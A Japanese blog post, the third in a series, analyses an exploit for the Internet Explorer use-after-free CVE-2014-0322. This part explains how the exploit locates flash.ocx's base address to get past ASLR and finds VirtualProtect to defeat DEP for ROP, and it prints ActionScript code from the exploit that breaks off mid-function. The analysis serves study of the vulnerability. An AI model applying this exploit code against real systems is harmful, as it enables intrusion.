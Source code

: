 ```yaml
---
layout: post
title: "Deep Dive into Exploit of Use-After-Free Vulnerability - 3"
date: 2014-09-23 07:43:00.000 +09:00
categories:
- Debug
- Security
- Windows
tags:
- ASLR
- CVE-2014-0322
- IAT
- INT
- MZ
- PE
- ROP
---
```


前回の記事で、脆弱性を利用してメモリの制御を奪うことまでできました。次にすることは、ROP (Return Oriented Programming) を行うための材料を集めます。ここで集めた材料を使って偽のスタック バッファーを作り、vtable を改竄して eip レジスターを乗っ取れば ROP は成功です。

 
### 2. ASLR 回避とインポート テーブル検索

 
ここで欲しいのは以下の情報です。

 
- flash.ocx のベース アドレス <br />
→ インポート テーブルから VirtualProtect API のアドレスを入手。コード領域の 0xC394 という部分を探すのにも使う。 
- VirtualProtect API のアドレス <br />
→ DEP を回避し、Private Data 内に流し込んだペイロードを実行可能とマークするために必要。 

 
上記の数値を取得するためには、ASLR でランダム化された flash.ocx のベースアドレスを探さないといけません。しかし、既にほぼ全てのメモリへアクセスが可能になっているので、既知のパターンに基づいてメモリ内を検索するだけでよく、ASLR 回避はそれほど難しいことではありません。前回指摘したように、配列の長さの次に保存されている vtable の値を使うこともできそうです。ベース アドレスさえ見つけてしまえば、あとは PE イメージの構造に基づいてコード領域やインポート テーブルを解析できるので、欲しい情報が入手できます。

 
と、言うわけで、今回はひたすら PE イメージの構造を解析します。分かれば単純なロジックですし、使い回せそうなコードですが、これを 1 から書いた人はやはり強者・・。

 
```
/* 
*  Get flash module base address 
*  index: index of vectors table 
*  cvaddr: corrupted vector address 
*/ 
public function getFlashBaseAddr(index:uint, cvaddr:uint):Array { 
  var baseflashaddr_off:uint = 0; 
  var j:int = 0; 
  var k:int = 0; 
  var kmax:uint = 0; 
  var vtableobj:int = 0; 
  var ocxinfo:Array = new Array();

  while (1) { 
    if (this.s[index][j] == 0x00010c00) { 
      vtableobj = this.s[index][j+0x08] & 0xFFFF0000;

      /* Get ocx base address */ 
      k = 0; 
      while (1) { 
        if (this.s[index][(vtableobj-cvaddr-k)/4 - 2] == 0x00905A4D) { 
          baseflashaddr_off = (vtableobj-cvaddr-k)/4 - 2; 
          ocxinfo[0] = baseflashaddr_off; 
          ocxinfo[1] = j; 
```